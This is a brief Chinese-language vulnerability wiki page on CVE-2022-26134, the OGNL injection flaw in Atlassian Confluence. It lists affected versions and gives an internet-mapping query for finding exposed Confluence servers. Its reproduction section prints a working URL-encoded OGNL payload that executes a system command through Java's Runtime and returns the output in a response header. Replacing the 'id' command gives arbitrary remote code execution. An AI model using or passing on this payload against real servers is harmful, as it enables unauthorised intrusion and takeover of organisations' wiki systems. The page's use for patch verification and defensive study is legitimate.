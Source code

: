 # Atlassian Confluence OGNL注入漏洞 CVE-2022-26134

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。2022年6月2日Atlassian官方发布了一则安全更新，通告了一个严重且已在野利用的代码执行漏洞，攻击者利用这个漏洞即可无需任何条件在Confluence中执行任意命令。

## 漏洞影响

<a-checkbox checked>7.4.17</a-checkbox></br>

<a-checkbox checked>7.13.7</a-checkbox></br>

<a-checkbox checked>7.14.3</a-checkbox></br>

<a-checkbox checked>7.15.2</a-checkbox></br>

<a-checkbox checked>7.16.4</a-checkbox></br>

<a-checkbox checked>7.17.4</a-checkbox></br>

<a-checkbox checked>7.18.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Confluence"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97-20220604093234758.png)

验证POC

```php
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

![img](/assets/PeiQi-Wiki/img/1654306027118-48bf3912-970a-403a-900a-dcfdd95b0cb9.png)